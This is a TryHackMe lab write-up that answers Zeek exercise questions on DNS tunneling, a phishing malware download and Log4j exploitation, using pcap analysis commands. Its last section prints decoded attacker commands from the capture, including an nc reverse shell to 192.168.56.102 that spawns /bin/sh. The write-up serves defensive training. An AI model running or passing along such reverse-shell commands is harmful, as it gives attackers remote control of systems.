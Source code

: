 ```yaml
---
title: Zeekxercises
date: 2024-06-10 00:00:00 -500
categories: [TryHackMe, Network Security]
tags: [TryHackMe]
---
```



# Anomalous DNS

An alert triggered: "***Anomalous DNS Activity***".

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive.

<u>Initializing Zeek</u>:

```c
zeek -v
sudo su
```

###### Question and Answers section:

- Investigate the **`dns-tunneling.pcap`** file. Investigate the **`dns.log`** file. What is the number of DNS records linked to the `IPv6 address`?
**Note: A record relates to IPv4 while AAAA record relates to IPv6!**

```c
$ zeek -C -r dns-tunneling.pcap
```

![](/assets/img/Pasted image 20240306150126.png)

<u>Log files generated</u>:
```c
- conn.log
- dns.log
- http.log
- ntp.log
- packet_filter.log
```

<u>Extracting important parts from dns.log</u>:
```c
$ cat dns.log | zeek-cut ts uid proto id.orig_h id.orig_p id.resp_h id.resp_p query qtype_name | sort -r | grep AAAA | wc -l
```

Output:

![](/assets/img/Pasted image 20240306151642.png)

Answer: `320`

![](/assets/img/Pasted image 20240306151654.png)


- Investigate the **`conn.log`** file. What is the longest connection duration?

<u>Command</u>:

```c
$ cat conn.log | zeek-cut duration | sort -r
```

Output:

![](/assets/img/Pasted image 20240306152051.png)

	- 9.420791


- Investigate the **`dns.log`** file. Filter all unique DNS queries. What is the number of unique domain queries?

<u>Command</u>:

```c
$ cat dns.log | zeek-cut query | rev | cut -d '.' -f 1-2 | rev | sort -r | uniq
```

	- The first 'rev' flips the domain relative to the y-axis
	- The cut command splits the string when it sees the '.' delimiter and only keeping the first two fields separated by those two delimiter
	- The second 'rev' command flips the domain relative to the y-axis again returning it back to its original 'word' state
	- The 'sort' command sorts the dns queries in the list in a reverse alphabetical format
	- The 'uniq' command removes all duplicates


Output:

![](/assets/img/Pasted image 20240306153213.png)

	 - Answer is 6!


- There are a massive amount of DNS queries sent to the same domain. This is abnormal. Let's find out which hosts are involved in this activity. Investigate the **`conn.log`** file. What is the IP address of the source host?

<u>Command</u>:

```c
$ cat conn.log | zeek-cut ts uid id.orig_h id.orig_p id.resp_h id.resp_p proto service | sort -r | uniq
```

Output:

![](/assets/img/Pasted image 20240306153731.png)

	- Answer: 10.20.57.3


-----------
# Phishing

An alert triggered: "***Phishing Attempt***".

The case was assigned to you. Inspect the `PCAP` and retrieve the artefacts to confirm this alert is a true positive.

- Investigate the logs. What is the suspicious source address? Enter your answer in **defanged format**.
```c
$ zeek -C -r phishing.pcap hash-demo.zeek
```

- Investigate the **`http.log`** file. Which domain address were the malicious files downloaded from? Enter your answer in defanged format.

From `http.log`, `knr.exe` was downloaded from `smart-fax.com`

![](/assets/img/Pasted image 20240306154929.png)

	- This is suspicious because .exe files aren't normally sent via email.


- Investigate the malicious document in VirusTotal. What kind of file is associated with the malicious document?

```c
$ zeek -C -r phishing.pcap hash-demo.zeek
```

```c
$ cat files.log | zeek-cut md5 sha1 sha256
```

Output:

![](/assets/img/Pasted image 20240306160709.png)

![](/assets/img/Pasted image 20240306161607.png)


- Investigate the extracted malicious **`.exe`** file. What is the given file name in Virustotal?

```c
$ zeek -C -r phishing.pcap file-extract-demo.zeek
```

<u>Extracted file types</u>:

![](/assets/img/Pasted image 20240306155053.png)

<u>Extracted hashes</u>:

![](/assets/img/Pasted image 20240306160709.png)


- The `.exe` file is a malware:

![](/assets/img/Pasted image 20240306160748.png)


- Investigate the malicious **`.exe`** file in VirusTotal. What is the contacted domain name? Enter your answer in **defanged format**.

![](/assets/img/Pasted image 20240306161751.png)

	- Answer: hopto[.]org

- Investigate the `http.log` file. What is the request name of the downloaded malicious **`.exe`** file? `knr.exe`


<u>VT Links for all the three files extracted</u>:

```c
- '.exe' : [VirusTotal - File - 749e161661290e8a2d190b1a66469744127bc25bf46e5d0c6f2e835f4b92db18](https://www.virustotal.com/gui/file/749e161661290e8a2d190b1a66469744127bc25bf46e5d0c6f2e835f4b92db18/relations)
- '.doc' : [VirusTotal - File - f808229aa516ba134889f81cd699b8d246d46d796b55e13bee87435889a054fb](https://www.virustotal.com/gui/file/f808229aa516ba134889f81cd699b8d246d46d796b55e13bee87435889a054fb/details)
- '.txt' : [VirusTotal - File - 6137f8db2192e638e13610f75e73b9247c05f4706f0afd1fdb132d86de6b4012](https://www.virustotal.com/gui/file/6137f8db2192e638e13610f75e73b9247c05f4706f0afd1fdb132d86de6b4012/details)
```

---------

# Log4j

**An alert triggered:** "`Log4J Exploitation Attempt`".

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive.

- Investigate the `log4shell.pcapng` file with `detection-log4j.zeek` script. Investigate the `signature.log` file. What is the number of signature hits?

<u>Command</u>:

```c
$ zeek -C -r log4shell.pcapng detection-log4j.zeek
```

Logs generated:

![](/assets/img/Pasted image 20240306162208.png)

Signature hits:

![](/assets/img/Pasted image 20240306162403.png)


- Investigate the **`http.log`** file. Which tool is used for scanning? `nmap`

![](/assets/img/Pasted image 20240306162517.png)


- Investigate the **`http.log`** file. What is the extension of the exploit file?

![](/assets/img/Pasted image 20240306162728.png)

	- `.class`


- Investigate the `log4j.log` file. Decode the ***base64*** commands. What is the name of the created file?
Commands:

![](/assets/img/Pasted image 20240306162823.png)

<u>Decoded</u>:
```c
touch /tmp/pwned

which nc > /tmp/pwned

nc 192.168.56.102 80 -e /bin/sh -vvv
```

